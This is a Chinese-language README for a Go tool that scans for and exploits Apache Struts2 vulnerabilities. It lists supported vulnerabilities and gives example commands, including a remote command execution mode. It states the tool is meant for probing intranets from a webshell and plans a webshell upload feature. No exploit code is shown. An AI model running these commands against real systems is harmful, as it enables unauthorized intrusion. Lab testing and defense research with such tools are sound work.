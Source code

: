 # STS2G
Struts2漏洞扫描Golang版，POC参考了众多优秀项目如[Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)，漏洞测试采用[vulhub](https://github.com/vulhub/vulhub/tree/master/struts2).  
目前两种模式`scan`和`exec`支持：  
*struts2-001*
*struts2-003*
*struts2-005*
*struts2-007*
*struts2-008*
*struts2-009*
*struts2-012*
*struts2-013*
*struts2-015*
*struts2-016*
*struts2-045*
*struts2-046*
*struts2-048*
*struts2-053*
*struts2-057*
#### 开发目的  
1、该工具适用于命令行操作模式下，比如webshell下检测内网struts2漏洞.  
2、Golang可编译Win/Linux可执行文件.  
3、单文件运行.  
#### 使用方法  
``` 
NAME:
   ST2SG - Struts2漏洞检测工具(Golang版)

USAGE:
   ST2SG.exe [global options] command [command options] [arguments...]

AUTHOR:
   x51 <x51enter@gmail.com>

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --mode value  specify working mode
   --vn value    Vulnerability number (default: 0)
   --url value   set target url
   --cmd value   exec command(only work on exploit mode)
   --data value  data for special vuln
   --help, -h    show help (default: false)
```
![avatar](./pasted-95.png)  
##### 默认扫描模式:  
```ST2SG --mode scan --url http://xxx.com/index.action```  
##### 指定漏洞扫描模式：  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 16```  
##### 命令执行模式：  
```ST2SG --mode exec --url http://xxx.com/index.action --vn 16 --cmd "whoami"```  
##### 自定义参数模式：  
*该模式基于以上方法，分有两种情况，自定义GET参数名，和自定义POST数据包内容，POST方式需要在数据包中指定一下要测试的参数并用fuckit标记出来.*  
POST  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 007 --data "name=fuckit&pass=qwer"```  
GET  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 009 --data "name"```  
#### 待补充  
*上传Webshell功能*  
*完善webppath打印模块-目前实现一部分*
#### 参考项目  
https://github.com/HatBoy/Struts2-Scan  
#### 测试环境  
https://github.com/vulhub/vulhub
